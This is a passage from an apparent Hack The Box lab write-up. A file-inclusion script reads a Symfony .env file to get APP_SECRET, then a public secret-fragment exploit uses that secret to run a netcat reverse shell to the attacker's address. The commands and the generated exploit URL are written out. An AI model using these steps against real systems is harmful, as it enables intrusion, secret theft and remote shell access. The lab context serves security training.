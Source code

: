 ```
        DocumentRoot /var/www/blog_dev/public

        <Directory "/var/www/blog_dev/public">
                AllowOverride All
        </Directory>
</VirtualHost>
<VirtualHost *:80>
        ServerAdmin webmaster@localhost
        ServerName hackfail.htb
        DocumentRoot /var/www/blog/public

        <Directory "/var/www/blog/public">
                AllowOverride All
        </Directory>
</VirtualHost>

```

Continue reading the `.env` file of the first web `/var/www/blog` that stores variables
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Synacktiv]
└─$ python3 LFI.py /var/www/blog/.env                         
# In all environments, the following files are loaded if they exist,
# the latter taking precedence over the former:
#
#  * .env                contains default values for the environment variables needed by the app
#  * .env.local          uncommitted file with local overrides
#  * .env.$APP_ENV       committed environment-specific defaults
#  * .env.$APP_ENV.local uncommitted environment-specific overrides
#
# Real environment variables win over .env files.
#
# DO NOT DEFINE PRODUCTION SECRETS IN THIS FILE NOR IN ANY OTHER COMMITTED FILES.
#
# Run "composer dump-env prod" to compile .env files for production use (requires symfony/flex >=1.2).
# https://symfony.com/doc/current/best_practices.html#use-environment-variables-for-infrastructure-configuration

###> symfony/framework-bundle ###
APP_ENV=prod
APP_SECRET=8c780d40a55d81caf1583f1de0bfede3
###< symfony/framework-bundle ###

```

# Remote code execution on Symfony
There is blog explaining how to `Remote code execution on Symfony based websites`
```
https://blog.lexfo.fr/symfony-secret-fragment.html
https://github.com/ambionics/symfony-exploits.git
```
Then we can run the exploited script here
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Synacktiv/symfony-exploits]
└─$ python3 secret_fragment_exploit.py http://hackfail.htb/_fragment -i http://hackfail.htb/_fragment -m 1 -s 8c780d40a55d81caf1583f1de0bfede3 -a sha256 -f shell_exec -p cmd:'netcat -e /bin/bash 10.10.14.5 443'    
http://hackfail.htb/_fragment?_path=cmd%3Dnetcat%2B-e%2B%252Fbin%252Fbash%2B10.10.14.5%2B443%26_controller%3Dshell_exec&_hash=CfHiHMP82nuhrlkgr7l362nJSoBGtqJ6kSYie0B354U%3D
                                                                                                                                                                                
┌──(wither㉿localhost)-[~/Templates/htb-labs/Synacktiv/symfony-exploits]
```